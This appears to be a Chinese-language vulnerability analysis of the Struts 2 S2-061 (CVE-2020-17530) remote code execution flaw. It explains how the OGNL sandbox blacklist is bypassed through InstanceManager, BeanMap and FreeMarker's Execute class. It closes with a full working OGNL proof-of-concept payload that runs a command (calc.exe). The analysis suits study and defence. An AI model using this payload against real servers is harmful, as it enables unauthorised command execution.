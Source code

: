 - [CVE-2020-17530(s2-061) Struts2 远程代码执行](#cve-2020-17530s2-061-struts2-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [之前的补丁](#之前的补丁)
    - [InstanceManager](#instancemanager)
    - [BeanMap](#beanmap)
    - [Bypass](#bypass)
    - [漏洞复现](#漏洞复现)
# CVE-2020-17530(s2-061) Struts2 远程代码执行
## 影响版本
Struts 2.0.0 - Struts 2.5.25
## 原理分析
### 之前的补丁
对s2-059的沙盒Bypass,主要是对5.16之后沙盒进行了绕过,在5.16中黑名单中又增加了1`com.opensymphony.xwork2.ognl`.  
![](2022-05-12-18-42-13.png)  
而之前通过attr的ValueStack来获取context的方法就位于`com.opensymphony.xwork2.ognl`包中,导致无法再通过`ValueStack.getContext()`获取到context.  
### InstanceManager
在context map的application map中存有一个`org.apache.tomcat.InstanceManager`对象,其实现类为`DefaultInstanceManager`,而该类存在于tomcat中间件的环境中.
![](2022-05-13-17-18-59.png)  
在`DefaultInstanceManager`中存在一个`newInstance`方法,可以根据类名返回实例对象.  
![](2022-05-13-17-37-18.png)  
现在便可以创建一个有Public无参构造函数的类了,但我们需要找一个可以得到contextm map的方法.
### BeanMap
BeanMap类是存在于Apache Commons Collections依赖包中的一个类,其构造函数为public无参构造函数,且其中会调用initialise方法,可以根据传入的对象来生成该类的BeanInfo.  
![](2022-05-13-17-52-25.png) 
![](2022-05-13-17-51-38.png)  
在其中将该对象类的读写(getter/setter)方法都分别放入了一个HashMap中.  
在BeanMap类的get方法中则会调用该对象类的get方法.  
![](2022-05-13-17-55-36.png)  
### Bypass
在之前的补丁中因为`com.opensymphony.xwork2.ognl`包被加入了黑名单,无法执行`getContext`方法,但我们可以通过`InstanceManager`创建一个`BeanMap`,再将`ValueStack`放入BeanMap中,则可以通过其BeanMap的get方法来间接执行`ValueStack#getContext()`方法,则可以再次得到context map.  
同样的的通过OgnlContxt的`getMemberAccess()`来得到`SecurityMemberAccess`.    
![](2022-05-13-18-05-57.png)  
然后再利用`BeanMap`的put方法(其会调用对应额set方法)来调用其`setExcludedPackageNames`和`setExcludedClasses`重置黑名单即可.   
![](2022-05-13-18-36-27.png)  
最后再利用newInstance创建一个`freemarker.template.utility#Execute`类,其存在无参构造函数,且其exec方法中可以直接执行命令.
![](2022-05-13-18-34-00.png)  
### 漏洞复现
poc:  
`%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("calc.exe")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}`  
![](2022-05-13-18-35-14.png)
